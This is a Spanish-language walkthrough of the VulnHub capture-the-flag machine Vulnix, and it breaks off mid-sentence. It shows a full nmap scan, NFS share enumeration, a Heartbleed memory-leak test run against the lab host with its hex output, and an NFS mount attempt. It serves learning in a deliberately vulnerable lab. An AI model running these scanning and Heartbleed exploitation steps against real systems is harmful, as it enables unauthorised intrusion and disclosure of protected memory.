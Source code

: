 # VULNIX
Desarrollo del CTF VULNIX
Download: https://www.vulnhub.com/entry/hacklab-vulnix,48/

## Escaneo de Puertos

### 1. Escaneamos todos los puertos TCP
- Muchos puertos abiertos en el servidor. Mucho por enumerar.

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 192.168.78.143
Nmap scan report for 192.168.78.143
Host is up (0.0010s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: 2021-03-02T04:37:14+00:00; -12h13m11s from scanner time.
79/tcp    open  finger     Debian fingerd
| finger: Login     Name       Tty      Idle  Login Time   Office     Office Phone\x0D
|_root      root      *pts/0      22  Mar  2 04:14 (192.168.78.131)\x0D
110/tcp   open  pop3       Dovecot pop3d
|_pop3-capabilities: UIDL SASL PIPELINING TOP RESP-CODES CAPA STLS
|_ssl-date: 2021-03-02T04:37:14+00:00; -12h13m11s from scanner time.
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36906/tcp6  mountd
|   100005  1,2,3      45339/udp   mountd
|   100005  1,2,3      49916/tcp   mountd
|   100005  1,2,3      60784/udp6  mountd
|   100021  1,3,4      33884/udp   nlockmgr
|   100021  1,3,4      47178/udp6  nlockmgr
|   100021  1,3,4      47973/tcp   nlockmgr
|   100021  1,3,4      48450/tcp6  nlockmgr
|   100024  1          44751/tcp   status
|   100024  1          54059/udp6  status
|   100024  1          56207/tcp6  status
|   100024  1          59215/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp   open  imap       Dovecot imapd
|_imap-capabilities: more have SASL-IR IMAP4rev1 OK ID LITERAL+ LOGIN-REFERRALS STARTTLS post-login capabilities listed Pre-login ENABLE LOGINDISABLEDA0001 IDLE
|_ssl-date: 2021-03-02T04:37:14+00:00; -12h13m11s from scanner time.
512/tcp   open  exec       netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  tcpwrapped
993/tcp   open  ssl/imaps?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-03-02T04:37:15+00:00; -12h13m11s from scanner time.
995/tcp   open  ssl/pop3s?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-03-02T04:37:15+00:00; -12h13m11s from scanner time.
2049/tcp  open  nfs_acl    2-3 (RPC #100227)
35728/tcp open  mountd     1-3 (RPC #100005)
44751/tcp open  status     1 (RPC #100024)
47973/tcp open  nlockmgr   1-4 (RPC #100021)
49916/tcp open  mountd     1-3 (RPC #100005)
58142/tcp open  mountd     1-3 (RPC #100005)
MAC Address: 00:0C:29:21:A2:F2 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enmumeración de Servicios

- Yo utilizo AUTORECON siempre. Me facilita la vida. El resultado del proceso arroja cosas interesantes.
- Se identificó: carpeta compartida por NFS y HEARTBLEED.

```
root@kali:~/VULNIX# showmount -e 192.168.78.143
Export list for 192.168.78.143:
/home/vulnix *

```

- La vulnerabilidad de HEARTBLEED esta en el puerto TCP/993 y TCP/995.
```
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 

```

## Explotando la Vulnerabilidad

### Exploté el HEARTBLEED en búsqueda de algo interesante pero NO.
- HB-TEST.PY: https://gist.github.com/harlo/10199638

```
root@kali:~/VULNIX# python hb-test.py 192.168.78.143 -p 995 | more
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 921
 ... received message: type = 22, ver = 0302, length = 525
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
```

### Montando la carpeta NFS

- Un poco de teoría previa. Hay dos opciones de seguridad que se debe conocer en NFS:

> root_squash: Esta opción permite que loa archivos se ejecuten con usuario que NOBODY, es decir no se crean ni ejecutan como ROOT.
Es una opción de seguridad que no permite que se monte la unidad de manera directa, se debe tener un usuario con las mismas características en el sistema para montar la unidad.

> no_root_squash: Esta opción permite que se creen los usuarios con el usuario del cliente de conexión. Haciendo vulnerable la carpeta compartida. No se recomienda nunca usar esta opción.


- Al montar la unidad podemos concluir que tiene la opción de seguridad ROOT_SQUASH

```
root@kali:~/VULNIX# umount /mnt/share/
umount: /mnt/share/: not mounted.
root@kali:~/VULNIX# showmount -e 192.168.78.143
Export list for 192.168.78.143:
/home/vulnix *
root@kali:~/VULNIX# mount -t nfs 192.168.78.143:/home/vulnix /mnt/share/
root@kali:~/VULNIX# ls -la /mnt/share/
ls: cannot open directory '/mnt/share/': Permission denied
```

- Para tener permisos 









